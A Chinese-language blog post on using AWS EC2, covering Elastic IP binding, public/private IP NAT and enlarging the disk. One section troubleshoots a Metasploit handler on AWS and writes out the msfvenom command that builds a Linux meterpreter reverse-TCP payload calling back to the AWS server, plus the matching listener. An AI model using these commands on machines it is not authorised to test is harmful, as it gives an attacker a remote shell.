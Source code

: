 ```yaml
---
title: AWS亚马逊云服务器使用（二）
categories:
- tools
tags:
- tools
---
```


上一篇：[AWS亚马逊云服务器搭建与使用](https://whale3070.github.io/tools/2019/08/31/10-x/)

## 绑定弹性IP

参考资料：[https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html](https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html)

`弹性IP`是aws的一个特性，它可以分配给A实例，当你不想要A实例的时候，又可以分配给B实例。于是IP是不变的，但是IP对应的机器却变了。这样比较方便，使用者完全感受不到底层的变化。

当我们把`弹性IP`和`实例`关联以后，就不用担心IP会变化了。如果不使用`弹性IP`，实例重启后，分配的IP可能会改变。

---
`ifconfig`，只有两个网卡，一个内网地址、一个本地环回地址。没有外网IP。

亚马逊云服务器外网IP与内网IP之间是通过一对一的NAT实现的，内网Ip配置在网卡上，外网Ip配置在网关上。如有需要绑定IP的场景，直接绑定内网IP即可，可以转发到外网IP上

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/1.PNG)

第一步：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/2.PNG)

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/3.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/6.PNG)

## msf绑定外网ip失败

当在aws上部署msf的时候，监听外网IP，却提示`Handler failed to bind to 本地外网IP`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

于是测试一下，msf监听，反弹shell是否能反弹成功。

aws监听：

```
handler -H aws外网IP -P 6678 -p linux/x86/meterpreter/reverse_tcp
```
目标机器：执行payload.elf
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=aws外网IP LPORT=6678 -f elf -o payload.elf

./payload.elf
```
aws确实是可以反弹成功的。

所以handler绑定失败是正常的，提示在0.0.0.0监听，意思是监听所有网卡的该端口。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

## 扩大硬盘空间

aws EC2默认只有8GB，当要存储需要用的软件时，空间不够，可以选择扩大卷。

https://amazonaws-china.com/cn/blogs/china/amazon-ebs-elastic-volumes/

